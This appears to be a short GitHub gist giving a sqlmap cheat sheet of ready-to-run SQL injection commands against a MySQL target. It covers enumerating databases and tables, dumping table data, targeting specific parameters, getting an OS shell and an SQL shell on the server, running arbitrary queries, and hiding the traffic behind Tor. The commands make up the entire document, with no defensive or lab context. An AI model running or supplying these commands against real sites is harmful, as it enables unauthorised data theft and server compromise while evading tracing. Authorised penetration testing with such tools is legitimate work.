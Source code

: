 # sqlmap-cheatsheet
SQLMap Cheat Sheet Raw


# Enumerate databases
sqlmap --dbms=mysql -u "$URL" --dbs

# Enumerate tables
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --tables

# Dump table data
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" -T "$TABLE" --dump

# Specify parameter to exploit
sqlmap --dbms=mysql -u "http://www.example.com/param1=value1&param2=value2" --dbs -p param2

# Specify parameter to exploit in 'nice' URIs
sqlmap --dbms=mysql -u "http://www.example.com/param1/value1*/param2/value2" --dbs # exploits param1

# Get OS shell
sqlmap --dbms=mysql -u "$URL" --os-shell

# Get SQL shell
sqlmap --dbms=mysql -u "$URL" --sql-shell

# SQL query
sqlmap --dbms=mysql -u "$URL" -D "$DATABASE" --sql-query "SELECT * FROM $TABLE;"

# Use Tor Socks5 proxy
sqlmap --tor --tor-type=SOCKS5 --check-tor --dbms=mysql -u "$URL" --dbs
